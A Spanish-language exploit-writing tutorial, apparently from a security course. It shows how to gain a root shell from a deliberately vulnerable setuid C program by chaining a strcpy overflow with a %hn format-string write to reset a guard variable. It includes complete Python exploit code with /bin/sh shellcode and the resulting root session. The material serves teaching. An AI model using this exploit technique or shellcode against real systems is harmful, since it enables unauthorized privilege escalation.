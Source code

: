 # ATAQUE FORMAT STRING RET2SHELLCODE 2 BYTES

## Análisis del programa vulnerable  FS1 <a href="#analisis-del-programa-vulnerable" id="analisis-del-programa-vulnerable"></a>

### Código Fuente

```
int main(int argv,char **argc) {
	short int zero=0;
	int *plen=(int*)malloc(sizeof(int));
	char buf[256];

	strcpy(buf,argc[1]);
	printf("%s%hn\n",buf,plen);
	while(zero);
}
```

### ¿Qué hace el programa? <a href="#que-hace-el-programa" id="que-hace-el-programa"></a>

El programa vulnerable copia en `buf` el primer parámetro ingresado por el usuario. Imprime por salida estándar el contenido de `buf` y guarda en `plen` la cantidad de bytes impresos. Si la variable `zero` se mantiene intacta el loop `while(zero)` no se ejecuta y el proceso finaliza.

```
user@abos:~$ gcc -m32 -no-pie -fno-stack-protector -ggdb -mpreferred-stack-boundary=2 -z execstack -o fs1 fs1.c
user@abos:~$ sudo chown root ./fs1; sudo chmod u+s ./fs1                      ; root owner & setuid

user@abos:~$ ./fs1 AAAAA
AAAAA
user@abos:~$ ./fs1 BBBBBBB
BBBBBBB
```

### ¿Cuál es la dificultad principal? <a href="#cual-es-la-dificultad-principal" id="cual-es-la-dificultad-principal"></a>

* Si se sigue la estrategia de sobreescribir la dirección de retorno de `main`, de manera colateral se pisa el valor de `zero` provocando un loop infinito. Frente a esto el proceso nunca retorna y la reescritura de la dirección de retorno en la pila es inútil.

![pila](https://fundacion-sadosky.github.io/guia-escritura-exploits/format-string/imagenes/fs1/escritura-zero.png)

* Es necesario pensar en un ataque combinado de desbordamiento de búfer y el aprovechamiento de una vulnerabilidad del tipo format string.

### Layout de la pila antes del exploit: <a href="#layout-de-la-pila-antes-del-exploit" id="layout-de-la-pila-antes-del-exploit"></a>

```
[ebp-264]  = buf
[ebp-8]    = plen
[ebp-4]    = zero
[ebp]      = ebp anterior
[ebp+4]    = dirección de retorno
```

![pila](https://fundacion-sadosky.github.io/guia-escritura-exploits/format-string/imagenes/fs1/layout-pila.png)

## Ataque Format String: <a href="#ataque-format-string-1" id="ataque-format-string-1"></a>

La reescritura de la dirección de retorno de `main` a través de un desbodamiento de búfer -en la función `strcpy`- obliga a sobreescribir la variable `zero` (por su ubicación en la pila entre `buf` y la dirección de retorno). Para que el ataque funcione es necesario que `main` retorne y por ende que `zero` continúe siendo 0.

![pila](https://fundacion-sadosky.github.io/guia-escritura-exploits/format-string/imagenes/fs1/escritura-zero-2.png)

> **Consideraciones**: no es plausible como solución sobreescribir `zero` con el valor numérico de `0000`. Como el desbordamiento de bufer se logra a través `strcpy`, una función que manipula strings, si optamos por escribir en `zero` el string “0000” estaríamos almacenando en `zero` el código ascii: `0x30303030`. Y por ende no lograríamos el objetivo de que el programa retorne.

Para solucionar este escollo es necesario combinar el ataque de desbordamiento de búfer con un ataque del tipo format string.\
Este ataque tomará dos pasos. Primero, aprovechar `strcpy(buf,argc[1])` para inyectar el shellcode y sobreescribir la dirección de retorno de `main()` almacenada en la pila para que apunte a él. Y en un segundo paso, aprovechamos `printf("%s%hn\n",buf,plen)` para volver a `zero = 0` de manera indirecta a través de `plen`, gracias a una vulnerabilidad del tipo format string. Paso a paso la estrategia será la siguiente:

**Primera parte**: aprovechando el código `strcpy(buf,argc[1])`:

* Inyectamos el shellcode en `buf`.
* Con un desbordamiento sobreescribimos `plen` para que apunte a `zero`.
* Y sobreescribimos la dirección de retorno de `main()` para que apunte a `buf`.

**Segunda parte**: aprovechando `printf("%s%hn\n",buf,plen)`:

* Esta línea de código nos va a permitir escribir un valor arbitrario de no más de dos bytes en `plen`.\
  [Como se indicó previamente](https://fundacion-sadosky.github.io/guia-escritura-exploits/format-string/5-format-string.html#par%C3%A1metros-de-formato) el parámetro `%n` escribe la cantidad de bytes impresos en la dirección especificada. Cuando se lo utiliza como `%hn` como en este caso (con una `h` de _half_ como formato adicional de longitud) va a escribir la cantidad de caracteres impresos pero en un short de 2 bytes.
*   Gracias al desbordamiento de búfer previo, `plen` apunta a `zero`. El primer `%s` del format string va a imprimir el string en `buf` hasta llegar a un caracter nulo, si logramos que la extensión de ese string sea de 10000 en hexa -como `%hn` escribe sólo dos bytes- logramos escribir `0000` en `plen` (quedando descartado el 1 inicial de (1)0000).\
    Entonces como `plen` apunta a `zero` si manipulamos adecuadamente la extensión de `buf` logramos el objetivo de que `zero = 0` indirectamente a través de `plen`.\
    Con ello evitamos el loop infinito del `while(zero)` y logramos que `main` retorne al código malicioso inyectado en el primer paso.



![](https://fundacion-sadosky.github.io/guia-escritura-exploits/format-string/imagenes/fs1/exploit.png)

Para lograrlo llevamos a cabo los siguientes pasos.

1.  Identificamos la dirección de `buf` en `gdb`

    > **Consideraciones**: como el argumento que le vamos a pasar a `strcpy` se almacena en la pila, su longitud afecta el cálculo de la dirección de `buf`. En este caso sabemos que la longitud total del argumento (es decir la cantidad de caracteres que va a imprimir `printf`) debe ser de `0x(1)0000` que en decimal es `65536`.\
    > Por eso para conocer la dirección que tendrá `buf` debugeamos el programa con un argumento cualquiera pero de esa longitud.

    Armamos un archivo en Python para ingresar el input: `exploit.py`

    ```
    #! /usr/bin/env python
       
    import sys
       
    exploit = "A" * 65536                   # 0x1000 == 65536
       
    sys.stdout.write(exploit)
    ```

    Y ejecutamos el programa vulnerable con ese argumento para conocer la dirección de `buf`:

    ```
    $ ../r.sh gdb ./fs1
    GNU gdb (Debian 7.7.1+dfsg-5) 7.7.1
    (gdb) break main
    (gdb) r "$(./exploit.py)"
    (gdb) break 6
    (gdb) c
    Continuing.
       
    Breakpoint 2, main (argv=3, argc=0xbffff814) at fs1.c:6
    6   strcpy(buf,argc[1]);
       
    (gdb) x/wx buf
    0xbffef680: 0x00000000
    ```

    La dirección de `buf` es entonces `0xbffef680`.
2. Planificamos el argumento de entrada
   * Inyectamos el shellcode en `buf`.
   * Hacemos que `plen` apunte a `zero`.
   * Escribimos basura en `zero` (porque vamos a pisar su valor).
   * Incluimos una dirección válida cualquiera en `ebp`.
   * Sobreescribimos la dirección de retorno para que apunte al shellcode.
   * Extendemos longitud del input para imprimir un total de (1)0000 bytes, cantidad almacenada en `plen` (que apuntará a `zero`).

![pila](https://fundacion-sadosky.github.io/guia-escritura-exploits/format-string/imagenes/fs1/exploit.png)

1.  Con eso en mente editamos el archivo en Python con el argumento definitivo: `exploit.py`

    ```
    #! /usr/bin/env python
       
    import sys
    from struct import pack
       
    #pwn a shell
    shellcode  = "\xeb\x1e\x31\xc0\x5b\x88\x43\x07\x89\x5b\x08"
    shellcode += "\x89\x43\x0c\x8d\x4b\x08\x8d\x53\x0c\x31\xd2"
    shellcode += "\xb0\x0b\xcd\x80\xb0\x01\x31\xdb\xcd\x80\xe8"
    shellcode += "\xdd\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"
    shellcode += "\x41\x42\x42\x42\x42\x43\x43\x43\x43"
       
    buf_size = 256
       
    buf_addr  = 0xbffef680
    zero_addr = buf_addr + buf_size + 4 + 2         #addr zero (4 bytes: int plen; 2 bytes: short int zero)
       
    exploit  = "\x90" * 80                          #nop sled
    exploit += shellcode                            #shellcode
    exploit += "\x42" * (256-80-len(shellcode))     #fill buf
    #total: 256 bytes
       
    exploit += pack("<I", zero_addr)                #plen -> &zero
    exploit += "AAAA"                               #basura en zero
    exploit += pack("<I", buf_addr)                 #basura -addr existente- en ebp
    exploit += pack("<I", buf_addr)                 #ret addr -> &shellcode
    #total: 16 bytes

    exploit += "B" * (65536-256-16)                 #%hn contabiliza 0x10000 o 65536 bytes (*plen = 0000)

    sys.stdout.write(exploit)
    ```
2.  Ejecutamos el exploit

    ```
    user@abos:~$ ../r.sh ./fs1 "$(./exploit.py)"

    BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
    # whoami
    root
    # id
    uid=1001(user) gid=1001(user) euid=0(root) groups=1001(user),27(sudo)
    # 
    ```

### Layout de la pila después del exploit: <a href="#layout-de-la-pila-despues-del-exploit" id="layout-de-la-pila-despues-del-exploit"></a>

Gráficamente logramos el siguiente resultado:

![pila después](https://fundacion-sadosky.github.io/guia-escritura-exploits/format-string/imagenes/fs1/programa-explotado.png)
